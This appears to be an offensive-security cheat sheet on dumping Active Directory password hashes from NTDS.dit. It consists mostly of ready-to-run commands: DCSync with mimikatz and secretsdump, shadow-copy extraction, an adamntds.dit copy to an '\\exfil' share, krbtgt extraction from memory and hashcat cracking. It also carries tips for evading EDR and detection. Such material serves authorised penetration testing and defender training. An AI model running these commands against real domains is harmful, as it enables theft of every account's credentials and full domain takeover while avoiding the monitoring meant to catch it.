 # Active Directory - NTDS Dumping

You will need the following files to extract the ntds :

- NTDS.dit file
- SYSTEM hive (`C:\Windows\System32\SYSTEM`)

Usually you can find the ntds in two locations : `systemroot\NTDS\ntds.dit` and `systemroot\System32\ntds.dit`.

- `systemroot\NTDS\ntds.dit` stores the database that is in use on a domain controller. It contains the values for the domain and a replica of the values for the forest (the Configuration container data).
- `systemroot\System32\ntds.dit` is the distribution copy of the default directory that is used when you install Active Directory on a server running Windows Server 2003 or later to create a domain controller. Because this file is available, you can run the Active Directory Installation Wizard without having to use the server operating system CD.

However you can change the location to a custom one, you will need to query the registry to get the current location.

```powershell
reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"
```

## DCSync Attack

DCSync is a technique used by attackers to obtain sensitive information, including password hashes, from a domain controller in an Active Directory environment. Any member of Administrators, Domain Admins, or Enterprise Admins as well as Domain Controller computer accounts are able to run DCSync to pull password data.

#### From Windows:
- DCSync only one user

  ```ps1
  mimikatz# lsadump::dcsync /domain:htb.local /user:krbtgt
  ```

- DCSync all users of the domain

  ```ps1
  mimikatz# lsadump::dcsync /domain:htb.local /all /csv

  netexec smb 10.10.10.10 -u 'username' -p 'password' --ntds
  netexec smb 10.10.10.10 -u 'username' -p 'password' --ntds drsuapi
  ```
#### From Linux:
- DCSync Using Impacket Secretsdump
  ```bash
  secretsdump.py -outputfile <outfile> -just-dc <domain/user>@<dc ip> 
  ``` 
   Useful Options
  - `-just-dc`: Extracts NTLM hashes and Kerberos keys
  - `-just-dc-ntlm`: Just dump NTLM hashes
  - `-just-dc-user <username>`: Extract only a specific user
  - `-pwd-last-set`: See when the users last changed their password
  - `-history`: Dump their password history as well
  - `-user-status`: See if a user is disabled
  - `-use-vss`: Use VSS to copy the NTDS.dit. Useful for seBackupPrivilege?

> :warning: OPSEC NOTE: Replication is always done between 2 Computers. Doing a DCSync from a user account can raise alerts.

## Volume Shadow Copy

The VSS is a Windows service that allows users to create snapshots or backups of their data at a specific point in time. Attackers can abuse this service to access and copy sensitive data, even if it is currently being used or locked by another process.

- [windows-commands/vssadmin](https://learn.microsoft.com/fr-fr/windows-server/administration/windows-commands/vssadmin)

  ```powershell
  vssadmin create shadow /for=C:
  copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
  copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy
  ```

- [windows-commands/ntdsutil](https://learn.microsoft.com/fr-fr/troubleshoot/windows-server/identity/use-ntdsutil-manage-ad-files)

  ```powershell
  ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
  ```

- [Pennyw0rth/NetExec](https://www.netexec.wiki/smb-protocol/obtaining-credentials/dump-ntds.dit) - VSS module

  ```powershell
  nxc smb 10.10.0.202 -u username -p password --ntds vss
  ```

## Forensic Tools

A good method for avoiding or reducing detections involves using common forensic tools to dump the NTDS.dit file and the SYSTEM hive. By utilizing widely recognized and legitimate forensic software, the process can be conducted more discreetly and with a lower risk of triggering security alerts.

- Dump the memory with [magnet/dumpit](https://www.magnetforensics.com/resources/magnet-dumpit-for-windows/)
- Use volatility to extract the `SYSTEM` hive

  ```ps1
  volatility -f test.raw windows.registry.printkey.PrintKey
  volatility --profile=Win10x64_14393 dumpregistry -o 0xaf0287e41000 -D output_vol -f test.raw
  ```

- Use [exterro/ftk-imager](https://www.exterro.com/digital-forensics-software/ftk-imager) to read the disk in raw state
    - Go to `File` -> `Add Evidence Item` -> `Physical Drive` -> `Select the C drive`.
    - Export `C:\Windows\NTDS\ntds.dit`.
- Finally use secretdump: `secretsdump.py LOCAL -system output_vol/registry.0xaf0287e41000.SYSTEM.reg -ntds ntds.dit`

## Extract hashes from ntds.dit

Then you need to use [impacket/secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to extract the hashes, use the `LOCAL` options to use it on a retrieved ntds.dit

```java
secretsdump.py -system /root/SYSTEM -ntds /root/ntds.dit LOCAL
```

[secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) also works remotely

```java
./secretsdump.py -dc-ip IP AD\administrator@domain -use-vss -pwd-last-set -user-status 
./secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
```

- `-pwd-last-set`: Shows pwdLastSet attribute for each NTDS.DIT account.
- `-user-status`: Display whether or not the user is disabled.

## Extract hashes from adamntds.dit

In AD LDS stores the data inside a dit file located at `C:\Program Files\Microsoft ADAM\instance1\data\adamntds.dit`.

- Dump adamntds.dit with Shadow copy using `vssadmin.exe`

    ```ps1
    vssadmin.exe create shadow /For=C:
    cp "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\Program files\Microsoft ADAM\instance1\data\adamntds.dit" \\exfil\data\adamntds.dit
    ```

- Dump adamntds.dit with Windows Server Backup using `wbadmin.exe`

    ```ps1
    wbadmin.exe start backup -backupTarget:e: -vssCopy -include:"C:\Program Files\Microsoft ADAM\instance1\data\adamntds.dit"
    wbadmin.exe start recovery -version:08/04/2023-12:59 -items:"c:\Program Files\Microsoft ADAM\instance1\data\adamntds.dit" -itemType:File -recoveryTarget:C:\Users\Administrator\Desktop\ -backupTarget:e:
    ```

- Extract hashes with [synacktiv/ntdissector](https://github.com/synacktiv/ntdissector)

    ```ps1
    ntdissector path/to/adamntds.dit
    python ntdissector/tools/user_to_secretsdump.py path/to/output/*.json
    ```

## Crack NTLM hashes with hashcat

Useful when you want to have the clear text password or when you need to make stats about weak passwords.

Recommended wordlists:

- [Rockyou.txt](https://weakpass.com/wordlist/90)
- [Have I Been Pwned founds](https://hashmob.net/hashlists/info/4169-Have%20I%20been%20Pwned%20V8%20(NTLM))
- [Weakpass.com](https://weakpass.com/)
- Read More at [Methodology and Resources/Hash Cracking.md](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/hash-cracking/)

```powershell
# Basic wordlist
# (-O) will Optimize for 32 characters or less passwords
# (-w 4) will set the workload to "Insane" 
$ hashcat64.exe -m 1000 -w 4 -O -a 0 -o pathtopotfile pathtohashes pathtodico -r myrules.rule --opencl-device-types 1,2

# Generate a custom mask based on a wordlist
$ git clone https://github.com/iphelix/pack/blob/master/README
$ python2 statsgen.py ../hashcat.potfile -o hashcat.mask
$ python2 maskgen.py hashcat.mask --targettime 3600 --optindex -q -o hashcat_1H.hcmask
```

:warning: If the password is not a confidential data (challenges/ctf), you can use online "cracker" like :

- [hashmob.net](https://hashmob.net)
- [crackstation.net](https://crackstation.net)
- [hashes.com](https://hashes.com/en/decrypt/hash)

## NTDS Reversible Encryption

`UF_ENCRYPTED_TEXT_PASSWORD_ALLOWED` ([0x00000080](http://www.selfadsi.org/ads-attributes/user-userAccountControl.htm)), if this bit is set, the password for this user stored encrypted in the directory - but in a reversible form.

The key used to both encrypt and decrypt is the SYSKEY, which is stored in the registry and can be extracted by a domain admin.
This means the hashes can be trivially reversed to the cleartext values, hence the term “reversible encryption”.

- List users with "Store passwords using reversible encryption" enabled

    ```powershell
    Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
    ```

The password retrieval is already handled by [SecureAuthCorp/secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) and mimikatz, it will be displayed as CLEARTEXT.

## Extract hashes from memory

Dumps credential data in an Active Directory domain when run on a Domain Controller.

:warning: Requires administrator access with debug privilege or NT-AUTHORITY\SYSTEM account.

```powershell
mimikatz> privilege::debug
mimikatz> sekurlsa::krbtgt
mimikatz> lsadump::lsa /inject /name:krbtgt
```

## References

- [Diskshadow The Return Of VSS Evasion Persistence And AD Db Extraction - bohops - March 26, 2018](https://bohops.com/2018/03/26/diskshadow-the-return-of-vss-evasion-persistence-and-active-directory-database-extraction/)
- [Dumping Domain Password Hashes - Pentestlab - July 4, 2018](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/)
- [Using Ntdissector To Extract Secrets From Adam Ntds Files - Julien Legras, Mehdi Elyassa - 06/12/2023](https://www.synacktiv.com/publications/using-ntdissector-to-extract-secrets-from-adam-ntds-files)
- [Bypassing EDR NTDS.dit protection using BlueTeam tools - bilal al-qurneh - Jun 9, 2024](https://medium.com/@0xcc00/bypassing-edr-ntds-dit-protection-using-blueteam-tools-1d161a554f9f)
